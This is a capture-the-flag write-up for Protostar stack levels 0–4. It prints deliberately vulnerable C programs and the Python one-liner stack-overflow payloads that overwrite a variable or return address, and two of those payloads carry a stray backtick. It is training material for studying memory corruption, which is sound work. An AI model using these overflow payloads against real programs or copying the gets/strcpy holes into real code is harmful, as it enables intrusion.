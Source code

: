 ```yaml
---
title: "Writeup: protostar (stack 0 - stack 4)"
date: 2020-12-30T21:12:45+08:00
draft: true
---
```


Protostar is a virtual machine which introduces the following in a friendly way: network programming, byte order, handling sockets, stack overflows, format strings, and heap overflows. It is available at [VulnHub](https://www.vulnhub.com/). 

<br>

## Stack 0

Here is some information of the executable /opt/protostar/bin/stack0. 

![](https://github.com/chuang76/image/blob/master/protostar/p0-1.PNG?raw=true)

The source code is provided as follows. 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    modified = 0;
    gets(buffer);

    if(modified != 0) {
    	printf("you have changed the 'modified' variable\n");
    } else {
    	printf("Try again?\n");
    }
}
```

So our goal is to modify an integer, just need to cover the value of buffer (64 bytes) and overwrite the value of modified (4 bytes). 

```
$ python -c "print('a' * 68)" | ./stack0
```

![](https://github.com/chuang76/image/blob/master/protostar/p0-3.PNG?raw=true)

<br>

## Stack 1

Some information of the executable /opt/protostar/bin/stack1. 

![](https://github.com/chuang76/image/blob/master/protostar/p1-1.PNG?raw=true)

The source code is available as follows. 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    if(argc == 1) {
    	errx(1, "please specify an argument\n");
    }

    modified = 0;
    strcpy(buffer, argv[1]);

    if(modified == 0x61626364) {
    	printf("you have correctly got the variable to the right value\n");
    } else {
    	printf("Try again, you got 0x%08x\n", modified);
    }
}
```

Our goal is to make the integer modified equal to 0x61626364. Note that the byte order is little-endian in the system. So the payload is

![](https://github.com/chuang76/image/blob/master/protostar/p1-2.PNG?raw=true)

or you can use \xAB notion to express the hexadecimal character. 

```
$ ./stack1 `python -c "print('a' * 64 + '\x64\x63\x62\x61')"`
```

![](https://github.com/chuang76/image/blob/master/protostar/p1-3.PNG?raw=true)

<br>

## Stack 2

Here is the information of the executable /opt/protostar/bin/stack2. 

![](https://github.com/chuang76/image/blob/master/protostar/p2-1.PNG?raw=true)

The source code is available as follows. 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];
    char *variable;

    variable = getenv("GREENIE");

    if(variable == NULL) {
    	errx(1, "please set the GREENIE environment variable\n");
    }

    modified = 0;

    strcpy(buffer, variable);

    if(modified == 0x0d0a0d0a) {
    	printf("you have correctly modified the variable\n");
    } else {
    	printf("Try again, you got 0x%08x\n", modified);
    }
}
```

Since the value of buffer is copied from the environment variable which we can control, let's exploit the program with the environment variable GREENIE. Again, the value of modified should be overwritten in little-endian format. 

```
$ GREENIE=`python -c "print('a' * 64 + '\x0a\x0d\x0a\x0d')"` ./stack2
```

![](https://github.com/chuang76/image/blob/master/protostar/p2-2.PNG?raw=true)

<br>

## Stack 3

Here is the information of the executable /opt/protostar/bin/stack3. 

![](https://github.com/chuang76/image/blob/master/protostar/p3-1.PNG?raw=true)

The source code is available as follows. 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
    printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    volatile int (*fp)();
    char buffer[64];

    fp = 0;

    gets(buffer);

    if(fp) {
    	printf("calling function pointer, jumping to 0x%08x\n", fp);
    	fp();
    }
}
```

We can use objdump command to figure out the address of the function win(). 

```
$ objdump -M intel -d stack3
```

![](https://github.com/chuang76/image/blob/master/protostar/p3-2.PNG?raw=true)

Here is the payload. 

```
$ python -c "print('a' * 64 + '\x24\x84\x04\x08')"` | ./stack3
```

![](https://github.com/chuang76/image/blob/master/protostar/p3-3.PNG?raw=true)

<br>

## Stack 4

Here is the information of the executable /opt/protostar/bin/stack4.

![](https://github.com/chuang76/image/blob/master/protostar/p4-1.PNG?raw=true) 

The source code is available as follows. 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
    printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    char buffer[64];
    gets(buffer);
}
```

Again, use objdump command to find out the address of the target function, i.e., 0x080483f4. 

![](https://github.com/chuang76/image/blob/master/protostar/p4-2.PNG?raw=true)

Next, let's figure out how many bytes should be covered before the return address. Set a break point at calling gets() function.

![](https://github.com/chuang76/image/blob/master/protostar/p4-6.PNG?raw=true)

As you can see, eax is stored as the start address of buffer (0xbffffca0) while current ebp is stored as 0xbffffce8. So we need to cover 0xbffffce8 - 0xbffffca0 + 4 (the size of ebp) = 76 bytes. 

![](https://github.com/chuang76/image/blob/master/protostar/p4-7.PNG?raw=true)

Here is the payload. 

```
$ python -c "print('a' * 76 + '\xf4\x83\x04\x08')"` | ./stack4
```

![](https://github.com/chuang76/image/blob/master/protostar/p4-5.PNG?raw=true)